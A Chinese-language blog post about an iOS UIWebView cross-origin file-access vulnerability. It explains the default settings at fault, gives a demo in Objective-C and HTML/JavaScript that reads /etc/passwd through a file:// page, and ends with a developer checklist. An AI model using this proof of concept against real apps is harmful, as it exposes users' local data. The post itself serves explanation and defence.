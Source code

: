 ```yaml
---
title: 谈一谈iOS平台跨域访问漏洞
date: 2018-01-01 00:00:00
author: Lefe_x
cover: true
---
```


谈一谈iOS平台跨域访问漏洞
--------
**作者**: [Lefe_x](https://weibo.com/u/5953150140)

最近很多关于 `iOS Webview` 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 @折腾范儿_味精 的指点。

iOS平台跨域访问漏洞成因是由于 `UIWebView` 默认开启了`WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 选项。这样黑客利用这个漏洞给某个 APP 下发一个 `HTML` 文件，当 `UIWebView` 使用 `file` 协议打开这个 `HTML` 文件，而 `HTML` 文件中含有一段窃取用户数据的 `JS` 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 `Demo`，截图是运行结果。

```objc
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```

![](https://github.com/southpeak/iOS-tech-set/blob/master/images/2018/01/17-1-1.jpg?raw=true)

运行上面的代码，会读取出手机端 `/etc/passwd` 的文件。这样的话，我们可以利用这个漏洞访问其他应用的数据，而不必需要用户的许可。而 `WKWiebView` 的 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 默认是关闭的，不会存在这样的风险。

那么如何觉得自己的 APP 是否是安全的呢？看看有没有满足下面几点：

1. `APP` 中是否含有远程下发的 `html` 供 `APP` 加载，而中途会被别人篡改；
2. 加载 `HTML` 文件是通过 `file` 协议加载的；
3. 使用的是否为 `UIWebView`；
4. 使用 `WKWiebView` 是否有主动开启 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 这两个属性。